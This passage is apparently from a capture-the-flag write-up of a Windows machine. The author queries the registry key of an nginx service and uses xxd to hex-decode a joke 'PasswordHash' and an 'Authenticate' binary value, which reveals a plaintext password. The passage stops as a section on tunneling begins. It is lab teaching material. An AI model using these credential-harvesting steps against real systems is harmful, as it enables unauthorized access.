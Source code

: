     ...[snip]...
    End of search: 45 match(es) found.
    

First, I see the KeePass keys. I wasn’t able to get anything out of them now,
but I’ll look for config files for each new user I get access as.

Then there’s the nginx service. It has a PasswordHash. But it doesn’t look
like a hash to me. In fact, it looks like it’s hex ascii. And it is, a troll:

    
    
    root@kali# echo 336d72676e6333205361797a205472794861726465722e2e2e203b440a | xxd -p -r
    3mrgnc3 Sayz TryHarder... ;D
    

However, it’s also a pointer to look closer. When I look at the key that holds
this value, I’ll see there’s also an “Authenticate” value:

    
    
    C:\>reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\nginx
    reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\nginx
    
    HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\nginx
        Type    REG_DWORD    0x10
        Start    REG_DWORD    0x2
        ErrorControl    REG_DWORD    0x1
        ImagePath    REG_EXPAND_SZ    C:\Program Files\nssm\win32\nssm.exe
        DisplayName    REG_SZ    Nginx
        ObjectName    REG_SZ    .\nginx
        Description    REG_SZ    Nginx web server and proxy.
        DelayedAutostart    REG_DWORD    0x0
        FailureActionsOnNonCrashFailures    REG_DWORD    0x1
        FailureActions    REG_BINARY    00000000000000000000000003000000140000000100000060EA00000100000060EA00000100000060EA0000
        Authenticate    REG_BINARY    4800370033004200700055005900320055007100390055002D005900750067007900740035004600590055006200590030002D0055003800370074003800370000000000
        PasswordHash    REG_SZ    336d72676e6333205361797a205472794861726465722e2e2e203b440a
    
    HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\nginx\Parameters
    HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\nginx\Enum
    

If I look at that as ASCII, I get a string:

    
    
    root@kali# echo 4800370033004200700055005900320055007100390055002D005900750067007900740035004600590055006200590030002D0055003800370074003800370000000000 | xxd -r -p
    H73BpUY2Uq9U-Yugyt5FYUbY0-U87t87
    

### Tunnel

I originally created tunnels with `plink.exe` , but I’m so much more a fan of
[chisel](https://github.com/jpillora/chisel) right now (check out [this
post](/2020/08/10/tunneling-with-chisel-and-ssf-update.html) for more
details). I’ll show both.
